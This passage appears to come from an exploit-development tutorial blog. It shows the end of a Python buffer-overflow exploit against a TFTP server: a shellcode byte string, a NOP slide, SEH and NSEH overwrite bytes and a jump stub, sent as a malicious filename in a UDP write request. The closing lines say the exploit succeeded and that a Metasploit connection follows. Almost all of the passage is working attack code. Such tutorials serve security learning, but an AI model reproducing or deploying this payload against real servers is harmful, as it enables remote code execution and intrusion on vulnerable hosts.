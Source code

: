 ```python
"\x99\xb7\xe9\xb0\xdc\x0b\x0b\x17\x6b\x33\x73\x12\xac\xc7\xc9"
"\x1d\xfd\x77\x45\x55\xe5\xfc\x01\x46\x14\xd1\x51\xba\x5f\x5e"
"\xa1\x48\x5e\xb6\xfb\xb1\x50\xf6\x50\x8c\x5c\xfb\xa9\xc8\x5b"
"\xe3\xdf\x22\x98\x9e\xe7\xf0\xe2\x44\x6d\xe5\x45\x0f\xd5\xcd"
"\x74\xdc\x80\x86\x7b\xa9\xc7\xc1\x9f\x2c\x0b\x7a\x9b\xa5\xaa"
"\xad\x2d\xfd\x88\x69\x75\xa6\xb1\x28\xd3\x09\xcd\x2b\xbb\xf6"
"\x6b\x27\x2e\xe3\x0a\x6a\x27\xc0\x20\x95\xb7\x4e\x32\xe6\x85"
"\xd1\xe8\x60\xa6\x9a\x36\x76\xc9\xb1\x8f\xe8\x34\x39\xf0\x21"
"\xf3\x6d\xa0\x59\xd2\x0d\x2b\x9a\xdb\xd8\xfc\xca\x73\xb2\xbc"
"\xba\x33\x62\x55\xd1\xbb\x5d\x45\xda\x11\xe8\x41\x14\x41\xb9"
"\x25\x55\x75\x2c\xea\xd0\x93\x24\x02\xb5\x0c\xd0\xe0\xe2\x84"
"\x47\x1a\xc1\xb8\xd0\x8c\x5d\xd7\xe6\xb3\x5d\xfd\x45\x1f\xf5"
"\x96\x1d\x73\xc2\x87\x22\x5e\x62\xc1\x1b\x09\xf8\xbf\xee\xab"
"\xfd\x95\x98\x48\x6f\x72\x58\x06\x8c\x2d\x0f\x4f\x62\x24\xc5"
"\x7d\xdd\x9e\xfb\x7f\xbb\xd9\xbf\x5b\x78\xe7\x3e\x29\xc4\xc3"
"\x50\xf7\xc5\x4f\x04\xa7\x93\x19\xf2\x01\x4a\xe8\xac\xdb\x21"
"\xa2\x38\x9d\x09\x75\x3e\xa2\x47\x03\xde\x13\x3e\x52\xe1\x9c"
"\xd6\x52\x9a\xc0\x46\x9c\x71\x41\x76\xd7\xdb\xe0\x1f\xbe\x8e"
"\xb0\x7d\x41\x65\xf6\x7b\xc2\x8f\x87\x7f\xda\xfa\x82\xc4\x5c"
"\x17\xff\x55\x09\x17\xac\x56\x18") 

filename = "\x90" * 236
filename += nopSlide
filename += shellcode
filename += "A" * (1492-126-236-len(nopSlide)-len(shellcode)) # 126 for the space that we jump to. 

# 236 for the space up to and including the 4 byte null space. 
# 20 bytes for nop slide and 325 bytes for the shellcode. 

filename += "\x83\xC5\x50" * 18
filename += "\xFF\xE5"
filename += "\xCC" * ( 126 - ((18 * 3) + 2) )
filename += "\xeb\x80\x90\x90" # NSEH overwrite
filename += "\x05\x96\x40" # SEH overwrite 

mode = "netascii" 
data = "\x00\x02" + filename + "\0" + mode + "\0" 

handler = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
handler.sendto(data, (host,port))
```

We have successfully made our exploit!
If you connect to the port using Metasploit you should get the following:

[![](https://2.bp.blogspot.com/-Jr0HKvI0E9c/UK6nzxG6nWI/AAAAAAAAAJI/pYBYtSn0I1Y/s0/Selection_047.png)](https://2.bp.blogspot.com/-Jr0HKvI0E9c/UK6nzxG6nWI/AAAAAAAAAJI/pYBYtSn0I1Y/s0/Selection_047.png)